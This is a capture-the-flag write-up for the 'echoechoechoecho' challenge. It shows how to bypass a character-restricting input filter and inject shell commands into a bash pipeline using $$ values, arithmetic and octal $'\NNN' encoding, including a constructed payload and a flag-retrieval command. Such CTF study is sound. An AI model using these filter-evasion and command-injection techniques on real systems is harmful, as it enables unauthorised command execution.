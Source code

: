# echoechoechoecho and why I failed

The input restriction on remote:

```python
if not all(ord(c) < 128 for c in payload):
    bye("ERROR ascii only pls")

if re.search(r'[^();+$\\= \']', payload.replace("echo", "")):
    bye("ERROR invalid characters")

# real echolords probably wont need more special characters than this
if payload.count("+") > 1 or \
        payload.count("'") > 1 or \
        payload.count(")") > 1 or \
        payload.count("(") > 1 or \
        payload.count("=") > 2 or \
        payload.count(";") > 3 or \
        payload.count(" ") > 30:
    bye("ERROR Too many special chars.")
    
```

If we pass this filter, we can also specify number of pipes to bash that we want to append to our input. So at the end, following command pattern will be invoked on remote:

```
<command> + "|bash" * <no_repeats>
```

So if we pass for example `echo echo echoecho` as command and `1` as repeat steps, the following command will be executed: `echo echo echoecho|bash` and at the output we'll see `echoecho`. 

After investigation I found out that `$$` evaluates to `8` for the first bash, `10` for the second bash and `11` for the third bash and so on (and it constant for all requests). So after passing `echo echo echo $$ \$\$ \\$\\$` and `3` as a repeat count, we'll see `8 10 11` at the output.

Next step is to use arithmetic operations inside `$(( ))` to get every number we need, but we have to pass the restrictions on special characters by declaring special characters:

```
echoecho=\=;\
echo \
echoecho$echoecho\\\+ \
echoechoecho$echoecho\\\( \ 
echoechoechoecho$echoecho\\\) \ 
echoechoechoechoecho$echoecho\$ \ 
echoechoechoechoechoecho$echoecho\\\' \
echoechoechoechoechoechoecho$echoecho\\\\' 
```

At this point we can get every number by adding `8`, `10` or `11` e.g. `$((8+11+11+12))` what will be evaluated to `42`. Now we can wrap this number in `$'\<num>'` and after pipe it will be evaluated to printable form of ASCII character at index `num` in octal.

```bash
$'\154'$'\163' -> ls

$ echo "$'\154'$'\163'" | xxd
00000000: 2427 5c31 3534 2724 275c 3136 3327 0a    $'\154'$'\163'.

$ echo "$'\154'$'\163'" | bash
almost_writeup.md  echoecho_final.py  echoecho.py  echosvr.py
```

After I've managed to construct payload that evaluates to `$'\154'$'\163' ` (`ls`) and I actually got the `ls` output from remote I've started construction of final payload. The command that I thought would give me the flag (and later turned out that the command was actually correct):

`bash -c 'expr $(grep + tmp/a)'|/get_flag>tmp/a;cat tmp/a` 

But something else was incorrect...

(lets simplify `bash -c 'expr $(grep + tmp/a)'|/get_flag>tmp/a;cat tmp/a`  to `ls | wc` just to make listing short)

```bash
'\154'$'\163' $'\174' $'\164'$'\162' -> ls | wc

$ echo "$'\154'$'\163' $'\174' $'\167'$'\143'" | xxd
00000000: 2427 5c31 3534 2724 275c 3136 3327 2024  $'\154'$'\163' $
00000010: 275c 3137 3427 2024 275c 3136 3727 2427  '\174' $'\167'$'
00000020: 5c31 3433 270a                           \143'.

$ echo "$'\154'$'\163' $'\174' $'\167'$'\143'" | bash
ls: cannot access '|': No such file or directory
ls: cannot access 'wc': No such file or directory
```

So piping in octal form does not work for `|` but it works for other ascii characters. Unfortunately, I've made an assumption that it works for all ascii chars, including `|`, this bad assumption cost me the flag.

What should I do then to get flag?

```bash
$ echo echo "$'\154'$'\163' $'\174' $'\167'$'\143'" | bash | bash
      4       4      59
```

Damn it.